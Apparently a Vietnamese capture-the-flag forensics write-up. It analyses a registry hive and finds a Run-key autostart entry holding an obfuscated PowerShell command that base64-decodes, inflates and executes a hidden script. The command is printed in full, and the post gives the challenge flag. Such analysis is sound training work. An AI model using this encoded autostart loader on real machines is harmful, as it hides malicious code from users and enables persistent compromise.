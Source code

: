 Đề cho một file `NTUSER.DAT`, mở file xem thì thấy là một file registry
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200108.png)

Sử dụng tool RegistryExplorer để mở tệp. Mình load hive và tìm đến path `Software\Microsoft\Windows\CurrentVersion\Run` 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200634.png)

Đây là đoạn script trong value

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon
```
Đọc qua thì thấy câu lệnh trên giải mã base64 và deflate chuỗi trên rồi thực thi câu lệnh sau khi giải mã. Mình dùng Cyberchef để làm tương tự 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20201249.png)

Tìm được Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`


